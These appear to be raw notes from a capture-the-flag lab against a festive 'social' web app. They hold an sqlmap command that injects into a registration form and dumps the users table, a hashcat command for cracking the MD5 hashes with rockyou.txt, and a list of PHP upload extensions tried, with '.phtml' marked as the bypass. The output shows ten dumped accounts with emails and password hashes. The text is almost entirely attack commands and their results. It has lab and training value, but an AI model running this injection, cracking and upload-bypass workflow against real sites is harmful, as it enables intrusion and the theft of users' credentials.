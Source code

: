 python3 sqlmap.py -u http://10.10.234.167/register.php --risk=3 --level=5    --batch --dbms=mysql -p log_email -D social --forms -T users --column

hashcat64 -m 0 ../../ucl_cs/reversing/hash rockyou.txt

[x] .php 
[x] .php3, 
[x] .php4
[x] .php5
[x] .php6
[x] .php7
[x] .phps
[x] .php-s
[x] .pht
[x] .phtm
yes!!! .phtml
[x] .phpt
[x] .phar
[x] .inc
[x] .jpg.php

Databases:
- social

Tables:
Database: social
[3 tables]
+----------+
| messages |
| trends   |
| users    |
+----------+

Database: social
Table: users
[10 entries]
+----+------------------------+----------------------------------+-----------------------+----------------+-----------+-----------+--------------+--------------------------------------------------------+-------------+-------------+--------------------------------------------------------------+
| id | email                  | password                         | username              | last_name      | num_likes | num_posts | first_name   | profile_pic                                            | signup_date | user_closed | friend_array                                                 |
+----+------------------------+----------------------------------+-----------------------+----------------+-----------+-----------+--------------+--------------------------------------------------------+-------------+-------------+--------------------------------------------------------------+
| 1  | bigman@shefesh.com     | f1267830a78c0b59acc06b05694b2e28 | santa_claus           | Claus          | 2         | 3         | Santa        | assets/images/profile_pics/defaults/head_deep_blue.png | 2019-12-22  | no          | ,mommy_mistletoe,arnold_schwarzenegger,johnfortnite_kennedy, |
| 2  | mmtoe@shefesh.com      | 402223cb4df4c5050a38043d38b1372b | mommy_mistletoe       | Mistletoe      | 0         | 3         | Mommy        | assets/images/profile_pics/defaults/head_emerald.png   | 2019-12-22  | no          | ,santa_claus,                                                |
| 3  | terminator@shefesh.com | 78a6d0e6c73a29ef6d07d56f32f67b30 | arnold_schwarzenegger | Schwarzenegger | 0         | 0         | Arnold       | assets/images/profile_pics/defaults/head_emerald.png   | 2019-12-22  | no          | ,santa_claus,johnfortnite_kennedy,                           |
| 4  | jayfkay@shefesh.com    | bc808149a93bc7050c3c6c4b7a5a0c97 | johnfortnite_kennedy  | Kennedy        | 0         | 1         | Johnfortnite | assets/images/profile_pics/defaults/head_emerald.png   | 2019-12-22  | no          | ,santa_claus,arnold_schwarzenegger,                          |
| 5  | john@keepingit.online  | aa4e356d1509f1c1f53e0191601cde72 | john_richardson       | Richardson     | 1         | 1         | John         | assets/images/profile_pics/defaults/head_emerald.png   | 2019-12-22  | no          | ,                                                            |
| 6  | notty@shefesh.com      | 6aff5ae0718de8945a3f71ba4d1ca76f | naughty_elf           | Elf            | 0         | 0         | Naughty      | assets/images/profile_pics/defaults/head_emerald.png   | 2019-12-22  | no          | ,                                                            |
| 7  | felixnav@shefesh.com   | 57e9eb182943223b0b4e7f17c5e4cb6e | felix_navidad         | Navidad        | 0         | 0         | Felix        | assets/images/profile_pics/defaults/head_emerald.png   | 2019-12-22  | no          | ,                                                            |
| 8  | mrsclaus@shefesh.com   | 15bc4f3ba871b2fa651363dcddfb27d9 | jessica_claus         | Claus          | 0         | 1         | Jessica      | assets/images/profile_pics/defaults/head_deep_blue.png | 2019-12-22  | no          | ,                                                            |
| 9  | mailman@shefesh.com    | a60c0662c54bde0301d9aa2ad86203df | myron_larabee         | Larabee        | 0         | 1         | Myron        | assets/images/profile_pics/defaults/head_deep_blue.png | 2019-12-22  | no          | ,                                                            |
| 10 | asd@asd.asd            | a8f5f167f44f4964e6c998dee827110c | asd_asd               | Asd            | 0         | 0         | Asd          | assets/images/profile_pics/defaults/head_emerald.png   | 2019-12-24  | no          | ,                                                            |
+----+------------------------+----------------------------------+-----------------------+----------------+-----------+-----------+--------------+--------------------------------------------------------+-------------+-------------+--------------------------------------------------------------+